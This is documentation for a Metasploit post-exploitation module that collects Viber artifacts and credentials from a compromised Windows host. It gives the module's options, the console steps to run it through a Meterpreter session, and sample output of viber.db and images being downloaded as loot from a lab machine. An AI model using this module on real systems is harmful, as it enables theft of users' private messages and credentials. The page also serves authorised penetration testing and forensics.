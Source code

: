 ## Module Description

This post-exploitation module gathers artifacts found on Viber related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/viber
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/viber) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Viber's parent folder found
[*] Viber's Viber.db file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\viber.db
[*] Viber Viber.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513071138_default_192.168.56.106_viberviber.db_428035.db

[*] Viber's parent folder found
[*] Viber's parent folder found
[*] Viber's *.jpg file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000486.jpg
[*] Viber 10000486.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000486.jp_920388.jpg

[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000487.jpg
[*] Viber 10000487.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000487.jp_576575.jpg


[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

